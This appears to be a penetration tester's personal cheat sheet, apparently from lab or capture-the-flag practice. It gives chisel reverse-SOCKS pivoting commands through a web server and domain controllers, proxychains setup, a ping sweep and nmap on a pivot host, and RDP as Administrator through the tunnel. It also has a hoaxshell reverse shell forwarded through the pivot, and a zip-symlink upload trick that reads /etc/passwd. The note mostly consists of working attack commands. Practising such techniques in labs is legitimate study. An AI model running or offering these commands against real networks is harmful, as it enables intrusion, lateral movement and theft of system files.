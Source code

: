 #Run command on Web Server machine (172.16.1.101)
./chisel server -p 8002 --reverse
#Then on the domain controller (172.16.1.5):
chisel.exe client 172.16.1.101:8002 R:2080:socks

proxychains:
   socks5 127.0.0.1 1080 
   socks5 127.0.0.1 2080 

#Run command on Office Domain Controller machine (172.16.1.5 )
chisel.exe server -p 8003 --reverse
chisel.exe client 172.16.1.5:8003 R:3080:socks

proxychains:
socks5 127.0.0.1 1080 
socks5 127.0.0.1 2080 
socks5 127.0.0.1 3080 


Ping:
for i in $(seq 254); do ping 10.1.2.${i} -c1 -w1 & done | grep from == see ip addresses on the 10.1.2.0/24 subnet

scp:
scp nmap pivot@10.1.1.10 == upload the nmap to the pivot box

on the pivot:
./nmap -Pn 10.10.2.6

chisel server --socks5 --resvers == attacker
./chisel client --fingerprint hsdlhfldhlfshdlf= 172.19.254.6:8080 R:8000:10.1.2.5:80 == we connect to 172.19.254.6:8080, and prot 80 of 10.1.2.5 is going to open on the port 8000 of localhost (172.19.254.6) 
./chisel client --fingerprint hsdlhfldhlfshdlf= 172.19.254.6:8080 R:socks == access all IPs and Ports on the same subnet

proxychains xfreerdp /v:10.1.2.6 /u:Administrator

./chisel client --fingerprint hsdlhfldhlfshdlf= 172.19.254.6:8080 0.0.0.0:9999:172.19.254.6:9999 == any communacation on port 9999 of pivot machine should be forwarded to port 9999 of 172.19.254.6
./hoaxshell.py -s 10.1.2.4 -p 9999 == ip of pivot box, because we basicly send a reverse shell from windows machine to pivot machine, then the pivot machine forward it to us



=================================================================================
zipping

ln -s /etc/passwd etc.pdf 
zip --symlink -r etc.zip etc.pdf   

curl http://10.10.11.229/uploads/4b816866db9b94e2e66c2e69762017b8/etc.pdf

  
=================================================================================
nmap


sudo nmap 10.129.2.0/24 -sn -oA tnet | grep for | cut -d" " -f5
-sn		Disables port scanning.
-oA tnet	Save the output in three formats: normal, XML, and grepable, with the base filename "tnet".
